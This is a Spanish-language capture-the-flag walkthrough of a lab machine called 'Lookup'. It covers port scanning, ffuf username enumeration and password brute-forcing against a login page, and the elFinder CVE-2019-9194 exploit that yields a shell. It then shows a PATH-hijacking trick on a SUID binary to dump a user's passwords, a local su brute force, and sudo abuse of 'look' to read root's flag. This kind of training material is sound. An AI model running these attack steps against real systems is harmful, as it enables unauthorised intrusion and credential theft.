









<div align="center">
    <figure>
        
    </figure>
</div>

<div align="center">

# Lookup<!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

| | |
|---|---|
| **Tags** | [**CWE-521: Weak Password Requirements**, **CVE-2019-9194**, **RCE (Remote Code Execution)**, **Path Hijacking**, **ffuf**, **ghidra**] |

</div>

## Índice  <!-- omit in toc -->

- [Escaneos](#escaneos)
- [Ingresando a elFinder](#ingresando-a-elfinder)
- [Shell con www-Data](#shell-con-www-data)
- [Shell con think](#shell-con-think)
- [Shell con root - Escalada de privilegios](#shell-con-root---escalada-de-privilegios)


### Escaneos

```shell
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.113.131.98 -oG target.log
```

```log
# Nmap 7.95 scan initiated Sun Nov  1 18:41:02 2026 as: nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG target.log 10.113.131.98
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.113.131.98 ()	Status: Up
Host: 10.113.131.98 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Sun Nov  1 18:41:22 2026 -- 1 IP address (1 host up) scanned in 19.88 seconds
```

```log
# Nmap 7.95 scan initiated Sun Nov  1 18:42:06 2026 as: nmap -p22,80 -sV -sC -oN openPorts.log 10.113.131.98
Nmap scan report for lookup.thm (10.113.131.98)
Host is up (0.096s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6e:20:11:15:ea:66:f7:84:f8:e4:c6:97:a2:3e:9d:c3 (RSA)
|   256 06:13:af:41:59:04:4d:82:d4:85:3e:6b:97:23:0b:29 (ECDSA)
|_  256 21:e7:8f:68:e5:5e:ea:80:9a:5d:c6:f5:b4:07:59:73 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login Page
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  1 18:42:16 2026 -- 1 IP address (1 host up) scanned in 9.89 seconds
```

<br>

### Ingresando a elFinder

Empezando con el escaneo pasivo al puerto 80 (HTTP) es curioso que no logré encontrar información sobre el servidor, aunque podría asumir que es PHP.

```shell
❯ whatweb 'http://lookup.thm'
http://lookup.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.113.131.98], PasswordField[password], Title[Login Page]
```

<div align="center">
    <figure>
        
        <figcaption>Formulario de acceso</figcaption>
    </figure>
</div>

<br>

Entonces, tras inspeccionar el código fuente, otras rutas y un poco con `BurpSuite` noté que el mensaje de rechazo nos dice MUCHO ya que si pasamos el usuario `admin` y cualquier contraseña nos da el mensaje de **contraseña incorrecta**, así que por descarte ya sabemos que hay un usuario llamado `admin` y adicional encontré uno llamado `jose`

<div align="center">
    <figure>
        
        <figcaption>Intento de credenciales aleatorias</figcaption>
    </figure>
    <figure>
        
        <figcaption>Intento con nombre de usuario admin</figcaption>
    </figure>
</div>

```shell
❯ ffuf -u "http://lookup.thm/login.php" -w /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt -d "username=FUZZ&password=password=test" -H 'Content-Type: application/x-www-form-urlencoded' -t 200 -mc 200 -fs 74

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 74
________________________________________________

admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 82ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 67ms]
```

<br>

Probamos hacer fuzzing para el usuario `admin` y encontramos una contraseña, pero lamentablemente no funcionó

```shell
❯ ffuf -u "http://lookup.thm/login.php" -w /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt -d "username=admin&password=FUZZ" -H 'Content-Type: application/x-www-form-urlencoded' -t 200 -mc 200 -fs 62

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 62
________________________________________________

[REDACTED]             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 245ms]
```

<br>

Así que volvemos a intentar usuarios y encontramos que la contraseña funciona con `jose`

```shell
❯ ffuf -u "http://lookup.thm/login.php" -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=[REDACTED]" -H 'Content-Type: application/x-www-form-urlencoded' -t 200 -fs 74

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=password123
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 74
________________________________________________

jose                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 105ms]
```

<br>

Ingresamos al sitio con el usuario `jose` y la contraseña encontrada.

<div align="center">
    <figure>
        
        <figcaption>Redirección a <strong>elFinder</strong></figcaption>
    </figure>
</div>

<br>

### Shell con www-Data

Tenemos que estamos ante un gestor de archivos llamado '**elFinder**', un poco de información: 

<br>

> **elFinder** es un gestor de archivos de código abierto para la web, escrito en JavaScript utilizando jQuery y jQuery UI.
> Aunque el usuario interactúa con él a través de un navegador web, se ejecuta en servidores Linux (o cualquier otro sistema operativo que soporte PHP) para permitir la gestión remota de archivos.

<br>

Aunque hay algunas vulnerabilidades documentadas para **elFinder** prefiero buscar un poco para encontrar la versión de este y encontramos la versión `v2.1.47`, la cual tiene una vulnerabilidad documentada `CVE-2019-9194`.

> [!TIP]
>
> https://www.exploit-db.com/exploits/46481
>

<br>

Así que me puedo traer este script a mi Host, hacer algunas modificaciones y ejecutarlo para intentar hacer **RCE**, consideren que hay que tener también una imágen `.jpg` para usar el exploit (puede ser cualquiera) y la URL que se contempla no es la base sino que se usa con rutas `http://files.lookup.thm/elFinder/`

> [!IMPORTANT]
>
> El script de **exploit-db** o `searchsploit` contempla ser ejecutado con `python2` si quieres usarlo en `python3` tendrás que modificarlo.

<br>

```shell
❯ ./46481.py http://files.lookup.thm/elFinder/
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ grep -i '/bin/.*sh' /etc/passwd
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
ssm-user:x:1001:1001::/home/ssm-user:/bin/sh
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```

<br>

Ahora que tenemos **RCE**, podríamos hacer una *Shell Reverse*

<div align="center">
    <figure>
        
        <figcaption>Shell Reverse con netcat</figcaption>
    </figure>
</div>

<br>

Tras una larga búsqueda, ejecuté "**linPEAS**" para ver si había alguna vulnerabilidad y encontramos lo siguiente

<div align="center">
    <figure>
        
        <figcaption>Ejecución de <strong>linPEAS</strong></figcaption>
    </figure>
</div>

Nos encontramos con el binario `pwm` en `/usr/sbin/pwm`:

<br>

### Shell con think

```shell
www-data@ip-10-113-131-98:/tmp$ which pwm
/usr/sbin/pwm
www-data@ip-10-113-131-98:/tmp$ ls -la $(which pwm)
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
www-data@ip-10-113-131-98:/tmp$ pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

<br>

Algo con nuestro **ID** está intentando hacer. Sin embargo para verlo mejor intentamos hacer `strings` sobre el binario: 

```shell
www-data@ip-10-113-131-98:/var/www/lookup.thm/public_html$ file $(which pwm)
/usr/sbin/pwm: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=01ec8570b00af8889beebc5f93c6d56fb9cc1083, for GNU/Linux 3.2.0, not stripped
www-data@ip-10-113-131-98:/var/www/lookup.thm/public_html$ strings $(which pwm) | less
```

<div align="center">
    <figure>
        
        <figcaption><strong>strings</strong> sobre el binario <strong>pwm</strong></figcaption>
    </figure>
</div>

<br>

Para entender mejor lo que está ocurriendo, traigo el binario a mi Host y lo analizo con `ghidra`, tras la búsqueda en la función `main` podemos notar que la función `snprintf` llama a `id` (otro binario del sistema) sin la ruta absoluta, quiere decir que podríamos aplicar un **Path Hijacking** y vulnerar este binario, de esa forma nos revelará la contraseña para el usuario `think` ubicada en su archivo `.passwords`

> [!NOTE]
>
> En este punto debiste haber notado, cuando hiciste el **RCE** o la **Shell Reverse**, que en el directorio del usuario `think` (`$HOME`) hay un archivo llamado `.passwords`
>


<div align="center">
    <figure>
        
        <figcaption>Desensamblando con <strong>ghidra</strong></figcaption>
    </figure>
</div>

<br>

```shell
www-data@ip-10-113-131-98:/tmp$ echo '#!/bin/bash' > id
www-data@ip-10-113-131-98:/tmp$ echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
www-data@ip-10-113-131-98:/tmp$ chmod 777 id
www-data@ip-10-113-131-98:/tmp$ ./id
uid=1000(think) gid=1000(think) groups=1000(think)
www-data@ip-10-113-131-98:/tmp$ export PATH=/tmp:$PATH
```

<br>

Ejecutamos el binario `/usr/sbin/pwm` y obtendremos una lista de contraseñas:

<div align="center">
    <figure>
        
        <figcaption>Lista de contraseñas con <strong>pwm</strong></figcaption>
    </figure>
</div>

<br>

Luego tenemos que pasar ese resultado a un archivo (recuerden usar `/usr/bin/pwm > file`) y pueden usar el siguiente script:

<br>

[Local BruteForce](./assets/script.sh)

<br>

```shell
www-data@ip-10-113-131-98:/tmp$ ./script.sh 
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: su: Authentication failure
Password: 
 [+] Password: [REDACTED]
www-data@ip-10-113-131-98:/tmp$ su think
Password: 
think@ip-10-113-131-98:/tmp$ whoami;id;groups
think
uid=1000(think) gid=1000(think) groups=1000(think)
think
think@ip-10-113-131-98:~$ ls -la
total 40
drwxr-xr-x 5 think think 4096 Jan 11  2024 .
drwxr-xr-x 5 root  root  4096 Nov  1 17:40 ..
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .bash_history -> /dev/null
-rwxr-xr-x 1 think think  220 Jun  2  2023 .bash_logout
-rwxr-xr-x 1 think think 3771 Jun  2  2023 .bashrc
drwxr-xr-x 2 think think 4096 Jun 21  2023 .cache
drwx------ 3 think think 4096 Aug  9  2023 .gnupg
-rw-r----- 1 root  think  525 Jul 30  2023 .passwords
-rwxr-xr-x 1 think think  807 Jun  2  2023 .profile
drw-r----- 2 think think 4096 Jun 21  2023 .ssh
-rw-r----- 1 root  think   33 Jul 30  2023 user.txt
lrwxrwxrwx 1 root  root     9 Jun 21  2023 .viminfo -> /dev/null
think@ip-10-113-131-98:~$ cat user.txt 
[REDACTED]
```

<br>

### Shell con root - Escalada de privilegios

Ahora que tenemos el flag de `think` vamos por la escalada de privilegios. Lo primero que hacemos es ver cuáles privilegios tiene el usuario en esta máquina.

```
think@ip-10-113-131-98:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-113-131-98:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-113-131-98:
    (ALL) /usr/bin/look
think@ip-10-113-131-98:~$ file /usr/bin/look
/usr/bin/look: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=492d6cbfbc09e5ed78ae212ab4e9ef693c5ed04f, for GNU/Linux 3.2.0, stripped
```

<br>

Tras buscar en **GTFObins** encontré la solución:

> [!TIP]
> https://gtfobins.org/gtfobins/look/
> 

```shell
think@ip-10-113-131-98:~$ sudo look '' /root/root.txt
[REDACTED]
```

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>